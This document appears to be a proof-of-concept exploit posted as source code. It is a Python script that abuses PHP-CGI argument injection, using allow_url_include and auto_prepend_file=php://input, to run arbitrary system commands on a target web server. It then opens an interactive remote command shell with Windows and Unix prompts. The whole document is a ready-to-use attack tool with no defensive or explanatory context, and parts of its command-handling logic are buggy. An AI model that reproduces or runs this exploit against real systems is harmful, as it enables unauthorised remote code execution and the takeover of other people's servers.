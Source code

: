 POC
---

    #!/usr/bin/python
    import requests
    import sys

    if len(sys.argv) != 2:
        print("Usage: sh.py <target>")
        sys.exit(0)

    target = sys.argv[1]
    url = 'http://' + target + '/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input'
    payload = "<?php system('cmd');die(); ?>"
    try:
        vuln1 = requests.post(url, data=payload.replace('cmd', 'uname -a'))
    except Exception as msg:
        print('%s: %s' % (target, msg))
        quit()

    print('%s: Connection suceeded' % target)


    if len(vuln1.text) > 120:
        print("SHELL FAILED: Can not create a shell")
        quit()

    if not 'linux' in vuln1.text.lower() and not 'mac' in vuln1.text.lower():
        vuln2 = requests.post(url, data=payload.replace('cmd', 'ver'))
        if not 'windows' in vuln2.text.lower():
            print("SHELL FAILED: Can't not create a shell")
            quit()
        oper = 'win'
        print('''%s
    (c) Microsoft Corporation. All rights reserved.
    ''' % vuln2)
        end = '\n'

    else:
        oper = 'unix'
        usr = requests.post(url, data=payload.replace('cmd', 'whoami')).text
        end = ''
        print('')


    while True:
        try:
            pth = requests.post(url, data="<?php echo getcwd(); ?>").text
            if oper == 'win':
                cmd = input("%s> " % pth)
            else:
                priv = '$'
                if usr == 'root':
                    priv = '#'
                if usr != 'root' and '/home/%s' % usr in pth:
                    pth = '~%s' % pth.replace('/home/%s', '')
                cmd = input("%s@%s:%s%s" % (usr, target, pth, priv))

            if cmd.replace(' ', '')[2:] == 'cd':
                cmd = "<?php chdir(%s); ?>" % cmd.replace(' ', '')[:2]
            data = payload.replace('cmd', cmd)
            resp = requests.post(url, data=data)
            print(resp.text + end)
        except KeyboardInterrupt:
            print("^C")
            sys.exit(1)
        except:
            print("SHELL FAILED: An unknown error occur")
            quit()